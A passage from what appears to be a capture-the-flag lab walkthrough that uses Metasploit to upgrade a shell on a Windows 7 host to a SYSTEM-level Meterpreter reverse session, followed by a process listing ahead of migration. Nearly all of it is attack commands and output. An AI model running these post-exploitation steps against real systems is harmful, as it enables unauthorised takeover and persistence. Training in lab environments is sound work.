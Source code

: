     msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1
    SESSION => 1

    msf6 post(multi/manage/shell_to_meterpreter) > run

    [*] Upgrading session ID: 1
    [*] Starting exploit/multi/handler
    [*] Started reverse TCP handler on 10.13.2.185:4433 
    [*] Post module execution completed
    msf6 post(multi/manage/shell_to_meterpreter) > 
    [*] Sending stage (200774 bytes) to 10.10.39.230
    [*] Meterpreter session 2 opened (10.13.2.185:4433 -> 10.10.39.230:49306) at 2023-02-19 06:55:11 -0500
    [*] Stopping exploit/multi/handler

    msf6 post(multi/manage/shell_to_meterpreter) > sessions -l

    Active sessions
    ===============

    Id  Name  Type                     Information                                         Connection
    --  ----  ----                     -----------                                         ----------
    1         shell x64/windows        Shell Banner: Microsoft Windows [Version 6.1.7601]  10.13.2.185:4444 -> 10.10.39.230:49290 (10.10.39.23
                                        -----                                              0)
    2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC                        10.13.2.185:4433 -> 10.10.39.230:49306 (10.10.39.23
                                                                                            0)

    msf6 post(multi/manage/shell_to_meterpreter) > sessions 2
    [*] Starting interaction with 2...

    meterpreter > 


if the first time you don't get the session 2 for meterpreter shell, then try to run it again

now to confirm the session is logged in as system

    meterpreter > getsystem
    [-] Already running as SYSTEM

Now we need to migrate our shell to another process

run ps command to list all running processes

    meterpreter > ps

    Process List
    ============

    PID   PPID  Name                  Arch  Session  User                          Path
    ---   ----  ----                  ----  -------  ----                          ----
    0     0     [System Process]
    4     0     System                x64   0
    352   544   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
    416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
    544   536   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
    592   536   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
    604   584   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
    644   584   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
    692   592   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
    700   592   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe